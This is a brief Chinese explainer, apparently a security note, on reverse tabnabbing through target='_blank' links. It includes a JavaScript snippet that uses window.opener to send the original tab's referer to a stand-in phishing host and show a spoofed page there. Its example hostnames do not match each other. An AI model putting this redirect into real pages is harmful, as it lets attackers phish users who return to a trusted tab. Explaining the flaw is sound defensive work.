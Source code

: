 
在你的网站 https://a.com 上存在一个链接：
 ```html
<a href="https://b.com" target="_blank">进入一个“邪恶”的网站</a>
```

用户点击了这个链接，在新的标签页打开了这个网站。  
这个网站可以通过 HTTP Header 中的 Referer 属性来判断用户的来源。  
并且，这个网站上包含着类似于这样的 JavaScript 代码：
```js
const url = encodeURIComponent('{{header.referer}}');
window.opener.location.replace('https://a.fake.site/?' + url);
```

此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 https://a.fake.site/?https%3A%2F%2Fexample.com%2F。  


恶意网站 https://a.fake.site 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。  


用户关闭 https://an.evil.site 的标签页，回到原来的网站………………已经回不去了    
